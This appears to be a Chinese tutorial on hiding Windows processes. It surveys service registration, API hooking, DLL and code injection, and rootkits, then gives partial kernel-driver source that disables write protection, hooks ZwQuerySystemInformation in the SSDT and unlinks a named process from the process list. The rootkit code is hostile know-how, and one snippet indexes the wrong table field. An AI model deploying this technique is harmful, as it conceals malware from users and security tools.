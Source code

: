 #  进程隐藏

## 实现进程隐藏的方法
### 1 
 基于系统服务的进程隐藏技术在 W I N 9X 系列操作系统中, 系统进程列表中不能看到任何系统服务进程, 因此只需要将指定进程注册为系统服务就能够使该进程从系统进程列表中隐形
在win9x下用RegisterServiceProcess函数隐藏进程，NT架构下用不了 即win2000  xp等什么的用不了此方法。
### 2 
 基于API HOOK的进程隐藏技术API HOOK指的是通过特殊的编程手段截获WINDOWS系统调用的API函数,并将其丢弃或者进行替换。 通过API
HOOK编程方法,截获系统遍历进程函数并对其进行替换,可以实现对任意进程的隐藏
 
### 3  
基于 DLL 的进程隐藏技术:远程注入Dll技术DLL文件没有程序逻辑,不能独立运行,由进程加载并调用,所以在进程列表中不会出现DLL文件。如果是一个以DLL形式存在的程序,通过某个
已有进程进行加载, 即可实现程序的进程隐藏。在windows系统中, 每个进程都有自己的私有地址空间, 进程不能创建属于另一个进程的内存指针
。而远程线程技术正是通过特殊的内核编程手段, 打破进程界限来访问另一进程的地址空间, 以达到对自身 进行隐藏的目的。
远程线程注入DLL技术指的是通过在某进程中创建远程线程的方法进入该进程的内存空间, 然后在其内存空间中加载启动DLL程序。
 
### 4  
基于远程线程注入代码的进程隐藏技术这种方法与远程线程注入 DLL 的原理一样,都是通过在某进程中创建远程线程来共享该进程的内存空间。所不同的是,远程线程注入代码通过直接
拷贝程序代码到某进程的内存空间来达到注入的目的。因为程序代码存在于内存中, 不仅进程列表中无法检测, 即使遍历进程加载的内存模块也无法
找到被隐藏程序的踪迹。
 
### 5
  Rootkit方式Intel CPU 有4 个特权级别： Ring 0， Ring 1， Ring 2， Ring 3。Windows 只使用了其中的 Ring  0 和  Ring  3 两个级别。
操作系统分为内核和外壳两部分：内核运行在Ring0级，通常称为核心态（或内核态），用于实现最底层的管理功能，在内核态
可以访问系统数据和硬件，包括处理机调度、内存管理、设备管理、文件管理等；外壳运行在 Ring 3 级，通常称为用户态，
是基于内核提供的交互功能而存在的界面，它负责指令传递和解释。通常情况下，用户态的应用程序没有权限访问核心态的地址空间。
Rootkit 是攻击者用来隐藏自己的踪迹和保留 root 访问权限的工具，它能使攻击者一直保持对目标机器的访问，以实施对目标计算机的控制[1]。从 Rootkit 运行的环境来看，可将
其分为用户级 Rootkit 和内核级 Rootkit。
用户态下，应用程序会调用 Wi n32 子系统动态库（包括Kernel32.dll， User32.dll， Gdi32.dll等） 提供的Win32 API函数，
它们是  Windows  提供给应用程序与操作系统的接口，运行在Ring  3 级。用户级 Rootkit 通常就是通过拦截 Win32  API，建立系统钩子，插入自己的代码，从而控制检测工具对进程或服务的遍历调用，实现隐藏功能。
内核级 R o o t k it 是指利用驱动程序技术或其它相关技术进入Windows 操作系统内核，通过对 Windows 操作系统内核相关的数据结构或对象进行篡改，以实现隐藏功能。
由于Rootkit 运行在 Ring  0 级别，甚至进入内核空间，因而可以对内核指令进行修改，而用户级检测却无法发现内核操作被拦
截。
## 进程隐藏实现
### 1.Windows操作系统是一种分层的架构体系。应用层的程序是通过API来访问操作系统。而API又是通过ntdll里面的核心API来进行系统服务的查询。核心API通过对int 2e的切换，从用户模式转换到内核模式。2Eh中断的功能是通过NTOSKRNL.EXE的一个函数KiSystemService()来实现的。在你使用了一个系统调用时，必须首先装载要调用的函数索引号到EAX寄存器中。把指向参数区的指针被保存在EDX寄存器中。中断调用后，EAX寄存器保存了返回的结果。KiSystemService()是根据EAX的值来决定哪个函数将被调用。而系统在SSDT中维持了一个数组，专门用来索引特定的函数服务地址。
在Windows 2000中有一个未公开的由ntoskrnl.exe导出的KeServiceDescriptorTable变量，我们可以通过它来完成对SSDT的访问与修改。KeServiceDescriptorTable对应于一个数据结构。
####定义如下： 
    typedef struct SystemServiceDescriptorTable 
	{ 
    	UINT    *ServiceTableBase; 
    	UINT    *ServiceCounterTableBase; 
   		UINT    NumberOfService; 
    	UCHAR    *ParameterTableBase; 
	}	SystemServiceDescriptorTable,*PSystemServiceDescri	ptorTable; 
其中ServiceTableBase指向系统服务程序的地址(SSDT)，ParameterTableBase则指向SSPT中的参数地址，它们都包含了NumberOfService这么多个数组单元。在windows 2000 sp4中NumberOfService的数目是248个。 
我们的任务管理器，是通过用户层的API来枚举当前的进程的。
####Ring3级枚举的方法： 
     " PSAPI 
	– EnumProcesses() 
	" ToolHelp32 
	– Process32First() 
	- Process32Next() 
来对进程进行枚举。而她们最后都是通过NtQuerySystemInformation来进行查询的。所以我们只需要Hook掉NtQuerySystemInformation，把真实NtQuerySystemInformation返回的数进行添加或者是删改，就能有效的欺骗上层API。从而达到隐藏特定进程的目的。 
### 2. Hook 
Windows2000中NtQuerySystemInformation在SSDT里面的索引号是0x97，所以只需要把SSDT中偏移0x97*4处把原来的一个DWORD类型的读出来保存一个全局变量中然后再把她重新赋值成一个新的Hook函数的地址，就完成了Hook。 
OldFuncAddress = KeServiceDescriptorTable-&gt; ServiceCounterTableBase[0x97]; 
KeServiceDescriptorTable-&gt; ServiceCounterTableBase[0x97] = NewFuncAddress; 
在其他系统中这个号就不一定一样。所以必须找一种通用的办法来得到这个索引号。在《Undocument Nt》中介绍了一种办法可以解决这个通用问题，从未有效的避免了使用硬编码。在ntoskrnl 导出的 ZwQuerySystemInformation中包含有索引号的硬编码: 
kd&gt; u ZwQuerySystemInformation 
804011aa    b897000000      mov         eax,0x97 
804011af    8d542404        lea         edx,[esp+0x4] 
804011b3    cd2e            int         2e 
804011b5    c21000          ret         0x10 
所以只需要把ZwQuerySystemInformation入口处的第二个字节取出来就能得到相应的索引号了。例如: 
ID = *(PULONG)((PUCHAR)ZwQuerySystemInformation+1); 
RealZwQuerySystemInformation=((PServiceDescriptorTableEntry)KeServiceDescriptorTable)-&gt;ServiceTableBase[ID]); 
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)-&gt;ServiceTableBase[ID] = HookZwQuerySystemInformation; 
### 3.对NtQuerySystemInformation返回的数据进行删改 
NtQuerySystemInformation的原型： 
NtQuerySystemInformation( 
        IN ULONG SystemInformationClass,   //查询系统服务类型 
        IN PVOID SystemInformation,        //接收系统信息缓冲区 
        IN ULONG SystemInformationLength,   //接收信息缓冲区大小 
        OUT PULONG ReturnLength);       //实际接收到的大小 
NtQuerySystemInformation可以对系统的很多状态进行查询，不仅仅是对进程的查询，通过SystemInformationClass号来区分功能，当SystemInformationClass等于5的时候是在进行进程的查询。此时返回的SystemInformation 是一个 _SYSTEM_PROCESSES结构。 
struct _SYSTEM_PROCESSES 
{ 
    ULONG NextEntryDelta;   //下一个进程信息的偏移量,如果为0表示无一个进程信息 
    ULONG ThreadCount;     //线程数量 
    ULONG Reserved[6];     // 
    LARGE_INTEGER CreateTime;      //创建进程的时间 
    LARGE_INTEGER UserTime;         //进程中所有线程在用户模式运行时间的总和 
    LARGE_INTEGER KernelTime;      //进程中所有线程在内核模式运行时间的总和 
    UNICODE_STRING ProcessName;     //进程的名字 
    KPRIORITY BasePriority;         //线程的缺省优先级 
    ULONG ProcessId;                //进程ID号 
    ULONG InheritedFromProcessId; //继承语柄的进程ID号 
    ULONG HandleCount;              //进程打开的语柄数量   
    ULONG Reserved2[2];             // 
    VM_COUNTERS VmCounters;         //虚拟内存的使用情况统计 
    IO_COUNTERS IoCounters;         //IO操作的统计,Only For 2000 
    struct _SYSTEM_THREADS Threads[1]; //描述进程中各线程的数组 
}; 


 

### 4. 核心实现 
//系统服务表入口地址 
extern PServiceDescriptorTableEntry KeServiceDescriptorTable; 
NTSTATUS DriverEntry(IN PDRIVER_OBJECT DriverObject, IN PUNICODE_STRING RegistryPath) 
{ 
    …… 
    __asm{ 
        mov eax, cr0 
        mov CR0VALUE, eax 
        and eax, 0fffeffffh //DisableWriteProtect 
        mov cr0, eax 
    } 
    //取得原来ZwQuerySystemInformation的入口地址 
RealZwQuerySystemInformation=(REALZWQUERYSYSTEMINFORMATION)(((PServiceDescriptorTableEntry)KeServiceDescriptorTable)-&gt;ServiceTableBase[*(PULONG)((PUCHAR)ZwQuerySystemInformation+1)] ); 
    //Hook 
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)-&gt;ServiceTableBase[*(PULONG)((PUCHAR)ZwQuerySystemInformation+1)]=HookFunc; 
    //EnableWriteProtect 
    __asm 
    { 
        mov eax, CR0VALUE 
        mov cr0, eax 
    } 
    …… 
    return STATUS_SUCCESS; 
} 
VOID DriverUnload (IN PDRIVER_OBJECT pDriverObject) 
{ 
    …… 
    //UnHook恢复系统服务的原始入口地址 
((PServiceDescriptorTableEntry)KeServiceDescriptorTable)-&gt;ServiceTableBase[*(PULONG)((PUCHAR)ZwQuerySystemInformation+1)] = RealZwQuerySystemInformation; 
    …… 
} 
NTSTATUS HookFunc( 
        IN ULONG SystemInformationClass, 
        IN PVOID SystemInformation, 
        IN ULONG SystemInformationLength, 
        OUT PULONG ReturnLength) 
{ 
    NTSTATUS rc; 
    struct _SYSTEM_PROCESSES *curr; 
    // 保存上一个进程信息的指针 
    struct _SYSTEM_PROCESSES *prev = NULL; 
    //调用原函数 
    rc = (RealZwQuerySystemInformation) ( 
        SystemInformationClass, 
        SystemInformation, 
        SystemInformationLength, ReturnLength); 
    if(NT_SUCCESS(rc)) 
    { 
if(5 == SystemInformationClass) 
//如果系统查询类型是SystemProcessesAndThreadsInformation 
        { 
            curr = (struct _SYSTEM_PROCESSES *)SystemInformation; 
            //加第一个偏移量得到第一个system进程的信息首地址 
            if(curr-&gt;NextEntryDelta)((char *)curr += curr-&gt;NextEntryDelta); 
            while(curr) 
            { 
if(RtlCompareUnicodeString(&hide_process_name, &curr-&gt;ProcessName, 1) == 0) 
                { 
                    //找到要隐藏的进程 
                    if(prev) 
                    { 
                        if(curr-&gt;NextEntryDelta) 
                        { 
                            //要删除的信息在中间 
                            prev-&gt;NextEntryDelta += curr-&gt;NextEntryDelta; 
                        } 
                        else 
                        { 
                            //要删除的信息在末尾 
                            prev-&gt;NextEntryDelta = 0; 
                        } 
                    } 
                    else 
                    { 
                        if(curr-&gt;NextEntryDelta) 
                        { 
                            //要删除的信息在开头 
                            (char *)SystemInformation += curr-&gt;NextEntryDelta; 
                        } 
                        else 
                        { 
                            SystemInformation = NULL; 
                        } 
                    } 
                    //如果链下一个还有其他的进程信息，指针往后移 
                    if(curr-&gt;NextEntryDelta) 
((char*)curr+=curr-&gt;NextEntryDelta);                    else 
                    { 
                        curr = NULL; 
                        break; 
                    } 
                } 
                if(curr != NULL) 
                { 
                    //把当前指针设置成前一个指针，当前指针后移 
                    prev = curr; 
                    if(curr-&gt;NextEntryDelta) 
((char*)curr+=curr-&gt;NextEntryDelta); 
                    else curr = NULL; 
                } 
            } // end while(curr) 
        } 
    } 
    return rc; 
} 
通过IOCTL和Ring3级的应用程序通过DeviceIoControl（API）交互信息。Ring3级的用户程序使用, 
DeviceIoControl(Handle,IOCTL_EVENT_MSG,ProcessName,ProcessNameLen, 
NULL,0,& BytesReturned,NULL)来通知驱动程序要隐藏的进程的名字。

